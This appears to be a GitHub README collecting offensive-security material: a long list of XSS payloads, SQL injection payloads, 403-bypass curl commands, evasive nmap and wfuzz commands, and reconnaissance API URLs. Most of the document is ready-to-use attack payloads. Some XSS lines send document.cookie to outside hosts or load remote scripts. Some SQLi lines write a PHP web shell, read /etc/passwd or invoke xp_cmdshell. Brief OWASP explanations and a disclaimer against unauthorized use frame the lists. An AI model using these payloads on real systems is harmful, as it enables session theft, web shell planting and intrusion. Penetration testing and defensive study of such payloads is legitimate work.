





<br>
<h1 align="center">Offensive Security Miscellaneous!</h1> <br>

<br>

# Topics: <br>

> [XSS Related + Payload list](#--xss)

> [SQLi Related + Payload list](#--sqli)

> [cURL Related](#--curl-related)

> [Tools Related](#--tools)

> [APIs](#apis)

<br>
<hr>

# - XSS
● What is cross-site scripting (XSS)? <br>

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script (JavaScript, etc), to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. XSS can cause a variety of problems for the end user, that range in severity: from an annoyance, to complete account compromising.
XSS attacks may be conducted without using `<script>...</script>` html tags. Other html tags will do exactly the same thing, for example: `<body onload=alert('test1')>` or other html attributes such as: onmouseover, onerror, onload, etc... [(source)](https://owasp.org/www-community/attacks/xss/)



<br>

> Do not use the following xss payloads in a random or unauthorized web application, I do not take any resposibility <br>
> to anyone willing to execute or exploit them on random endpoints and parameters, you have been warned!

## XSS Payloads (My personal collection) <br>

<details>
  <summary>🔴 Click to view a custom list of XSS Payloads</summary>

  ```
  <script>alert(document.domain+"\n\n"+document.cookie);<script>
  </script><svg><script/class=rodric>alert(1)</script>-%26apos;
  </SCRIPT>"><svg/OnLoad="`${prompt``}`">exemplo
  ""><svg/onload=alert(1)>%27/---+{{77}}"
  ;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
  ;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
  <svg onload='alert(1)'
  <svg onload="alert(1)"
  <svg onload=alert(1)//
  <svg onload=alert(1)+
  <svg onload=alert(1)<!--
  <svg/onload=window.alert();//
  <!--><svg/onload=window.alert();//
  ">
  "><script><svg/alert%20(document.cookie)</script>
  %22on%3eerror=%22prompt(document.domain)
  %27%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
  %3Cscript%3Ealert(document.domain);%3C/script%3E
  --><font color=blue><h1>xss/
  "onmouseover=alert(1)//
  %3Cscript%3Ealert%28%2FXSS%2F%29%3C%2Fscript%3E
  'onerror=%22alert%60kauenavarro%60%22testabcd))/
  %3cscript%3eprompt(document.domain)%3c%2fscript%3e
  javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.domain
  1%27%22%28%29%26%25%3Cacx%3E%3CScRiPt%20%3Ealert%28document.domain%29%3C/ScRiPt%3E
  '"()%26%25<acx><ScRiPt%20>alert(document.domain)</ScRiPt>
  '();}]9676"></script><script>alert(document.domain)</script>
  "%20"><input>%3
  %22%3E%3C%2Fa%3E%3Cimg%20src%3Dx%20onerror%3Dalert%28document.cookie%29%3B%3E%3C%2Fscript%3E
  %3Cmarquee%20loop%3d1%20width%3d0%20onfinish%3dco\u006efirm(document.cookie)%3EXSS%3C%2fmarquee%3E
  "><svg+svg+svg\/\/On+OnLoAd=confirm(document.cookie)>
  javascript:alert(document.domain)
  %22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3B%3E
  %22%3E%3Cimg+src%3Dx+onerror%3Dprompt%28POCkauenavarroxss%29%3E
  ;'"/'/><svg/onload=confirm('teste
  '%22()%26%25<acx><ScRiPt%20>alert(1)</ScRiPt>
  <ScRiPt>prompt%289371%29<%2FScRiPt>=<ScRiPt>alert%28document.domain%29<%2FsCrIpT>
  0%0d%0a%0d%0a23%0d%0a<svg%20onload=confirm(document.domain)>%0d%0a0%0d%0a
  %27x%27onclick=%27alert(1)
  onMouseOvER=prompt(/xss/)//
  %27%20onclick=alert(document.domain)%20accesskey=X%20
  %3Cmarquee%20loop=1%20width=%271%26apos;%27onfinish=self[`al`+`ert`](1)%3E%23leet%3C/marquee%3E
  asd"on+<>+onpointerenter%3d"x%3dconfirm,x(cookie)
  <s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
  <// style=x:expression\28write(1)\29>
  <!--[if]><script>alert(1)</script -->
  <a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>@cr:0xInfection
  <script>eval(atob(decodeURIComponent("payload")))//
  <a href=j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At:open()>clickhere
  <svg onx=() onload=(confirm)(1)>
  <a+HREF='javascrip%26%239t:alert%26lpar;document.domain)'>teste</a>
  <svg onload=prompt%26%230000000040document.domain)>
  <svg onload=prompt%26%23x000000028;document.domain)>
  xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
  1'">
  <--` --!>
  javascript:{alert`0`}
  <base href=//knoxss.me?
  <a69/onclick=[1].findIndex(alert)>sussy
  <input/oninput='new Function`confir\u006d\`0\``'>
  <p/ondragstart=%27confirm(0)%27.replace(/.+/,eval)%20draggable=True>dragme
  <svg/onload=prompt(1);>
  <isindex action="javas&tab;cript:alert(1)" type=image>
  <marquee/onstart=confirm(2)>
  3&clave=%3Cimg%20src=%22WTF%22%20onError=%22{
  0%22%3E%3Ciframe%20src=http://vuln-lab.com%20onload=alert%28%22VL%22%29%20%3C
  <table background="javascript:alert(1)"></table>
  "/><marquee onfinish=confirm(123)>a</marquee>
  <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
  <x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme
  <a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
  <a69/onclick=write&lpar;&rpar;>hi
  <svg/onload=self[`aler`%2b`t`]`1`>
  anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
  "/><svg+svg+svg\/\/On+OnLoAd=confirm(1)>
  .png
  ">.png
  "><svg onmouseover=alert(1)>.svg
  <<script>alert('xss')<!--a-->a.png
  java%0dscrip%0d%1b%1bt:console.log`${document.cookie}`}
  java%0dscrip%0d%1b%1bt:console.log`${location=`https://www.pudim. com?c=${document.cookie}`}
  "><x onauxclick=a=alert,a(domain)>click
  <!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>
  <sc%00ript>confirm(1)</script>
  \"><iframe/src=javascript:alert%26%23x000000028%3b)>
  \u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7
  jaVasCript:/*-/*`/*\`/*'/*"/**/(/*+*/oNcliCk=alert()+)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
  <data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
  
  <Video><source onerror = "javascript: alert (XSS)">
  <Input value = "XSS" type = text>
  <applet code="javascript:confirm(document.domain);">
  <isindex x="javascript:" onmouseover="alert(document.domain)">
  "></SCRIPT>''>'><SCRIPT>alert(String.fromCharCode(88.83.83))</SCRIPT>
  ">
  "><iframe src="javascript:alert(document.domain)">
  <object data="javascript:alert(document.domain)">
  <isindex type=image src=1 onerror=alert(document.domain)>
  
  </img>
  <iframe/src="data:text/html,<svg onload=alert(document.domain)>">
  <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(document.domain)" http-equiv="refresh"/>
  <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
  <meta http-equiv="refresh" content="0;url=javascript:confirm(document.domain)">
  <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
  <form><a href="javascript:\u0061lert(document.domain)">X
  </script>
  <style>//*{x:expression(alert(/document.domain/))}//<style></style>
  
  <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa href=j&#97v&#97script:&#97lert(document.domain)>CLICK
  <form><button formaction=javascript&colon;alert(document.domain)>CLICK
  <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
  <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
  <OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:confirm(document.domain)"></OBJECT>
  javascripT:eval('var a=document.createElement(\'script\'):a.src=\'https://ofjaaaah.xss.ht\':document.body.appendChild(a)')
  %3Cmarquee%20loop=1%20width=%271%26apos;%27onfinish=self[`al`+`ert`](1)%3E%23leet%3C/marquee%3E
  %3Cx%20y=1%20z=%271%26apos;%27onclick=self[`al`%2B`ert`](1)%3E%23CLICK%20MEE
  0%3Bdata%3Atext%2Fhtml%3Bbase64%2CPHNjcmlwdD5wcm9tcHQoIlJlZmxlY3RlZCBYU1MgUE9DbCIpPC9zY3JpcHQ%22HTTP-EQUIV%3D%22refresh%22
  xss><svg/onload=globalThis[`al`+/ert/.source]`1`//
  "-top['al\x65rt']('sailay')-"
  <div onactivate=confirm('Xss') id=xss style=overflow:scroll> 
  ><div onactivate=confirm('Xss')> 
  <a href="javas%09cript:[1].map(top['ale'+'rt'])">
  <a href="jav%0Dascript&colon;alert(1)">
  <svg/onload=location=javas+cript:ale+rt%2+81%2+9;//
  '/>
  %E2%80%A8%E2%80%A9confirm(1)
  ;confirm(document.domain)//
  ;onerror=alert;throw%201
  <input autofocus ng-focus=”$event.path|orderBy:’[].constructor.from([1],alert)’”>
  <textarea onbeforecopy=alert(1) autofocus>XSS</textarea>
  <textarea onbeforecut=alert(1) autofocus>XSS</textarea>
  <textarea onbeforepaste=alert(1) autofocus></textarea>
  <tfoot id=x tabindex=1 onbeforedeactivate=alert(1)></tfoot><input autofocus>
  <tfoot id=x tabindex=1 ondeactivate=alert(1)></tfoot><input id=y autofocus>
  <th oncopy=alert(1) value="XSS" autofocus tabindex=1>test
  <th oncut=alert(1) value="XSS" autofocus tabindex=1>test
  <th ondblclick="alert(1)" autofocus tabindex=1>test</th>
  <th onfocusout=alert(1) tabindex=1 id=x></th><input autofocus>
  javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
  ');}</script>
  "><a/\test="%26quot;x%26quot;"href='%01javascript:/*%b1*/;location.assign("//hackerone.com/stealthy?x="+location)'>Click
  <details onauxclick=confirm`xss`></details>
  <x onauxclick=a=alert,a(domain)>click
  <!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>
  <a href="javas%09cript:[1].map(top['ale'+'rt'])">
  <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
  "><svg/on</script>laod=alert>
  <ijavascriptmg+src+ojavascriptnerror=confirm(1)>
  </ScRiPt>
  javascript:new%20Function`al\ert\`1\``;
  <b/onanimationstart=prompt`${document.domain}&#x60;>
  <style>@keyframes a{}b{animation:a;}</style>
  <sVg/onfake="x=y"oNload=;1^(co\u006efirm)``^1//
  <Svg Only=1 OnLoad=confirm(1)>
  JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
  "><svg onload=prompt%26%230000000040document.domain)>
  "><svg onload=prompt&#0000000040document.domain)>
  "><svg onload=alert%26%230000000040"1")>
  "><svg onload=prompt%26%23x000000028;document.domain)>
  XSS"><body %00 onControl hello onmouseleave=confirm(domain) x>XSS
  XSS"><html><select %00 onControl onpointerenter=prompt(domain) hello>
  XSS"><input %00 onControl hello oninput=confirm(domain) x>
  "()%26%25<acx><ScRiPt%20>N8Zn(9266)</ScRiPt>
  <fieldset//%00//onsite OnMoUsEoVeR=\u0061\u006C\u0065\u0072\u0074`/AmoloHT/`>
  '`&quot;&gt;<svg onmouseover=confirm(document.domain)>
  <p title=" </noscript><style onload=alert(document.domain)//">
  %0d%0a</script>
  %0d%0a</script><h1+onmouseover=alert(document.cookie)>mouseOver</h1>
  <a href=//X55.is autofocus onfocus=import(href)>%3Ca+href=//X55.is+autofocus+onfocus=import(href)%3E
  <a href=javascript:'\74svg/onload\75alert\501\51\76'>
  -20a")});a=alert;a(1);//
  ```
</details>

<br>

<hr>

<br>
    
# - SQLi
● What is SQL Injection? <br>

SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
Consists of an insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. [(source)](https://owasp.org/www-community/attacks/SQL_Injection)



## SQLi Payloads <br>
- Advanced SQL Injection payloads for endpoint/parameter fuzzing

<details>
  <summary>🔴 Click to view a custom list of XSS Payloads</summary>
  
  ```txt
  ' /*!50000union*/ select 1,2,3,4,5,6,7,8,'data://text/plain,<?php echo system("uname -a");?>'-- -
  ' /*!50000union*/ select 1,2,3,4,5,6,7,8,'data://text/plain,<?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>' -- -
  ’ /*!50000union*/ select 1,2,3,4,5,'../index',7,8,'php://filter/convert.base64-encode/resource=.' -- -
  admin' and (select * from(select(sleep(40)))SQLI) and 'abc' = 'ab
  -1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,LOAD_FILE('/etc/passwd'),NULL;#
  -1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,"<?php echo shell_exec($_REQUEST['cmd']);?>",NULL INTO OUTFILE '/var/www/html/c.php';#
  (select(0)from(select(sleep(13)))v)/*'+
  (select(0)from(select(sleep(13)))v)+'\"+
  (select(0)from(select(sleep(13)))v)+\"*/
  xxxx'; EXEC xp_cmdshell 'ping interact';--
  orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
  1' OR NOT 2470=2470--
  orwa'||DBMS_PIPE.RECEIVE_MESSAGE(CHR(98)||CHR(98)||CHR(98),10)||'
  -1+/*!12345UnIoN*//**/(/*!12345SEleCt*//**/ 1,2)+ — +
  0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
  ```
</details>

<br>

<hr>

<br>

# - cURL Related
● What is [cURL](https://linux.die.net/man/1/curl) is a tool to transfer data from or to a server.? <br>

cURL is a command-line interface(CLI) tool for transferring data specified with URL syntax.

## Bash/Shell script to check server's HTTP response code

```bash
#!/bin/bash

echo -e "\n$1 \t[$CODE_]"
CODE_=$(curl -w "%{http_code}\n" -s -o /dev/null "$1")
```
> Change the program permission to executable using chmod +x, <br>
> passing the first argument($1) as the target domain.   

## cURL .NET Serialized object grabber
- .NET Deserialization.

The first thing to note about this whole process is that essentially serialization is just a fancy word for converting objects in a program's memory into another format that is easier to share or send over the network. These "serialized" formats are usually quite easy for humans to read, especially when compared to the raw binary format they are stored as in memory. XML and JSON are common examples of these easy to read serialization formats.
Deserialization is, as the name suggests, the opposite process. Converting back from XML/JSON/etc into a .NET object in memory that the program can work with.



### Greping for **__VIEWSTATE** variable in a determined domain: <br>

```bash
curl -v -s -k https://www.website.com/Login.aspx | grep VIEW >> output.txt
```

### Grabbing only the objects on the output file & throwing the objects into stdout: <br>

```bash
cat output.txt | awk -v value="[teste]>>> " '{print value$5}' | tr -d value=\" | awk '{print $2}' | sed 'G'
```

<br>

<hr>

<br>

# Bypass 403 Forbidden 
- Mind maps for 403 Bypass: **https://github.com/KathanP19/HowToHunt/tree/master/Status_Code_Bypass**
- [Bypassing 403 medium post](https://medium.com/@dufferhackers/403-forbidden-bypass-technique-eda321012baa)

HTTP 403 is an HTTP status code meaning access to the requested resource is forbidden. The server understood the request, but will not fulfill it, due to lack of privilege on the application.



<br>

## 403 Bypass method using cURL: <br>

Tips: Try adding `./`, `//` after the url <br>
- Example: `site.com/./` OR `site.com//`

Try using different request methods to access the unauthorized file/path: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`.
Check the response headers, maybe some information can be given. For example, a 200 response to HEAD with Content-Length: 55 means that the HEAD request method can access the info. But you still need to find a way to exfiltrate that info.
Using a HTTP header like `X-HTTP-Method-Override: PUT` can overwrite the request method used.
Use TRACE request method and, if you are very lucky, maybe in the response you can see also the headers added by intermediate proxies that might be useful as information.

Additional [content](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses)

```bash
curl -s -k -X GET https://www.site.com/ -v -H "X-Originating-IP: 127.0.0.1, 68.180.194.242" -H "User-Agent: GoogleBot" -H "Content-Length:0"
curl -i -s -k -X GET https://www.site.com/ -H "Host: www.site.co" -H "X-rewrite-url: directory"
```

<br>

<hr>

<br>

# - Tools

## Nmap Ultimate Scan v1 ([man](https://man7.org/linux/man-pages/man1/nmap.1.html))

nMap (Network Mapper) is a network discovery and security tool.
nMap is used to discover hosts and services on a computer network by sending packets and analyzing the responses. <br>
It can also be used for web application testing.

- Replace the API-KEY with your [Shodan](https://www.shodan.io) API Key

```bash
sudo nmap --randomize-hosts -Pn 0.0.0.0 --script shodan-api --script-args shodan-api.apikey=API-KEY -v -sS --open --reason --ttl=128 -sV --top-ports=20 --min-rate=2000 -T3  --spoof-mac=google -g443 --script="not intrusive" -oN resultados.txt
```

### Explanation:
```markdown
--randomize-hosts        :: Tells Nmap to shuffle each group of up to 16384 hosts before it scans them.
-Pn                      :: Skips the host discovery stage altogether.
--script *               :: Invoking the script to Shodan API.
-v                       :: Verbose mode.
-sS                      :: TCP SYN scan.
--open                   :: Show open ports.
--reason                 :: Shows the reason each port is set to a specific state and the reason each host is up or down.
--ttl=128                :: Tricks the Target/Firewalls of thinking the user is scanning using Windows OS.
-sV                      :: -sS added with -sV means that in case a port doesn't respond with SYN/ACK, Nmap will close the conection with RST.
--top-ports=20           :: Scan 20 most common ports (Can be set to any number).
--min-rate=2000          :: Send packets no slower than 2000 per second.
-T3                      :: Timing template set to polite.
--spoof-mac=google       :: Spoof MAC address.
-g443                    :: Spoof source port number.
--script="not intrusive" :: Loads every script except for those in the intrusive category.
-oN                      :: Output the results to a file named resultados.txt
```

<br>

## wFuzz ([man](https://www.kali.org/tools/wfuzz/))
- wFuzz is a web application [fuzzing](https://owasp.org/www-community/Fuzzing) tool. <br>

<br>

###  Ultimate wFuzz command v1 <br>
- You can find awesome wordlists [here](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content)

```sh
sudo wfuzz --hc 404,400,302,301 -u https://site.com/FUZZ -w WORDLIST.txt -H "User-Agent: Googlebot-News" -t 50
```

### Explanation:
```markdown
--hc                     :: Ignore 404, 400, 302 and 301 status codes.
-u                       :: Url with the FUZZ param where the program shall do the fuzzing.
-w                       :: Using a wordlist.
-H                       :: Trying to trick the WAF with a Google-bot user agent.
-t                       :: Using 50 threads.
```

<br>

<hr>

<br>

# APIs
- APIs for a variety of target reconnaissance!
- Tip: Can be used with cURL to make automated tools using shell script.
- Replace **URL.COM** with your target's domain.

The purpose of an API(Application Programming Interface) is to facilitate communication between software. They provide a format for applications and devices to talk to one another and exchange data in response to commands. This Request/Response pair is a fundamental component in an API



<br>

## DNS Look up & DNS Stuff <br>

> https://api.hackertarget.com/dnslookup/?q=URL.COM <br>
> https://api.threatminer.org/v2/domain.php?q=URL.COM&rt=5 <br>
> https://api.hackertarget.com/findshareddns/?q=URL.COM <br>
> https://api.hackertarget.com/reversedns/?q=URL.COM <br>
> https://api.hackertarget.com/zonetransfer/?q=URL.COM

<br>

## General Network <br>

> https://api.hackertarget.com/subnetcalc/?q=URL.COM <br>

<br>

## HTTP Headers <br>

> https://api.hackertarget.com/httpheaders/?q=URL.COM

<br>

## Host Search & Sub-domains <br>

> https://api.hackertarget.com/hostsearch/?q=URL.COM <br>
> https://sonar.omnisint.io/subdomains/URL.COM <br>
> https://jldc.me/anubis/subdomains/URL.COM

<br>

## Crawlers <br>
- Alien Vault limit parameter can be set to any integer number,
- as well as the page parameter.
- Common Crawl outputs with json format.

> https://otx.alienvault.com/api/v1/indicators/hostname/URL.COM/url_list?limit=50&page=1 <br>
> https://index.commoncrawl.org/CC-MAIN-2021-43-index?url=URL.COM&output=json

<br>

## Scanners Related <br>

> https://api.hackertarget.com/nmap/?q=URL.COM <br>
> https://urlscan.io/api/v1/search/?q=domain:URL.COM&size=10000

<br>
<br>
<br>
<br>
<hr>


#### Credits: <br>

> [NobodyKnows](https://github.com/almostfamous2) :: Base creator of the [Nmap command](#nmap-ultimate-scan-v1-man)

> [Me](https://github.com/rodricbr)               :: Making it look cool & easy! :)


